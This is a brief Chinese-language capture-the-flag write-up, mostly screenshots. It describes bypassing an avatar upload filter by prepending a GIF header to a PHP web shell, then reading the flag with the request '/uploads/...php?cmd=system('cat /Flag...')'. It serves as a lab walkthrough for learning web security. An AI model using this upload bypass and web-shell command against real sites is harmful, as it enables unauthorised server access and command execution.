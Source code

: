 ![[Pasted image 20221231095511.png|500]]

---
首页长这样

![[Pasted image 20221231095544.png|1000]]

注册账号并登录

![[Pasted image 20221231100127.png|1000]]

这里可以上传头像

没想到加上`GIF`头之后就能顺利上传木马

![[Pasted image 20221231101933.png|500]]

```php
/uploads/d41d8cd98f00b204e9800998ecf8427e.php?cmd=system('cat /Flag_aqi2282u922oiji');
```

![[Pasted image 20221231101816.png]]

#Web #PHP #文件上传 #文件 